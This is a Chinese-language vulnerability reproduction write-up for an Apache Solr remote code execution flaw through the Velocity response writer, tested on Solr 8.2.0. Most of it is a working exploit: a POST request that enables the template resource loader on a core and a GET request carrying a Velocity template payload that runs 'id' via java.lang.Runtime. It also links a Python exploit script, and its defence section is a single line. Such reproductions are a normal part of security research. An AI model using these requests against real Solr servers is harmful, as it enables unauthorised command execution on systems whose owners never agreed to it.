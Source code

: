 # [漏洞复现] Apache Solr RCE


### 漏洞详情
原作者S00pY 666!！如果知道Core路径，通过POST数据包修改配置文件，可远程执行命令。测试使用solr-8.2.0最新版本，目测影响全版本。

**利用前提**
solr存在未授权访问。

### 漏洞复现
访问Core Admin得到应用路径，漏洞复现踩坑：如果Add Core报错，将`/solr-8.2.0/server/solr/configsets/_default`下的conf文件夹复制到`new_core`文件夹下即可。

![](img/core1.jpg)

开启params.resource.loader.enabled

```
POST /solr/new_core/config HTTP/1.1
Host: 10.211.55.13:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```
![](img/core2.jpg)

命令执行

```
GET /solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: 10.211.55.13:8983
```
![](img/core3.jpg)

![](img/core4.jpg)

[Python EXP](https://github.com/mark-zh/POC-AND-EXP/blob/master/Web%20Server/Apache/solr_rce.py)

### 防御
禁止访问solr。

**参考**
https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt